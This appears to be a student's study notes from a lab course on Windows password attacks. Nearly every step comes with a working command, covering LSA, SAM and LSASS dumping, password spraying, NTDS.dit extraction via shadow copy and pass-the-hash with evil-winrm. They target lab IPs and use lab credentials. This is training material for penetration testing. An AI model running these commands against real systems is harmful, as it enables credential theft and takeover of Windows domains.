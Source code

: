 - We can also dump LSA secrets remotely (if we have local admin privileges): `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
- We can ALSO dump hashes from the SAM database remotely: `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

### LSASS
- LSASS plays a central role in credential managemetn and authentication
  - Caches creds in local mem
  - Creates access tokens
  - Enforces security policies
  - Writes to Windows security log
- **Dump LSASS**
  - GUI Version
    - Task Manager > Processes tab > Local Security Authority Process > *Right Click* > Create dump file
    - This creates a file at: `C:\Users\<usr>\AppData\Local\Temp`
  - cmd Version: `tasklist /svc`
  - PowerShell Version: `Get-Process lsass`
  - Create the lsass dumb in PowerShell:
    - rundll32 version: `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`
    - Pypykatz version: `pypykatz lsa minidump /home/<user>/Documents/lsass.dmp`

### Attacking Active Directory & NTDS.dit
- AD is highly common. There are two main types of attacks when attacking credentials
- Dictionary Attacks
  - There are common formats of usernames, which many usernames in a company are likely to follow (eg. firstinitiallastname, firstname.lastname, etc)
  - We can find these *often* by searching for `@<fqdn>` (eg. @inlanefreight.com), or dorking `<fqdn> filetype:pdf`
  - Once we have a list of names, we can use username-anarchy to generate the list of names: `./username-anarchy -i /home/<user>/names.txt`
  - Then, we can launch the attack with CrackMapExec: `crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
  - We can view logs in the Event Viewer
- Dumping Hashes from NTDS.dit
  - NTDS.dit is the primary database file associated with AD
  - Connect to the target via evil-winrm (with the creds we captured previously): `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`
  - Once in, see what privs we have: `net localgroup`
    - Also: `net user <ouruser>`
  - Make a volume shadow copy of the C: drive (or whatever drive AD is on): `vssadmin CREATE SHADOW /For=C:`
  - Copy NTDS.dit from volume shadow copy of C: to another location, to prepare to move NTDS.dit to our attack host: `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
  - Move it on over (maybe create a share first)
  - **Faster Alternative**
    - `crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`
    - Crack the hashes!
  - **What if we can't crack the hash?**
    - We can use a type of attack called Pass-the-Hash (PtH)
      - This takes advantage of the NTLM authentication protocol
    - `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"`
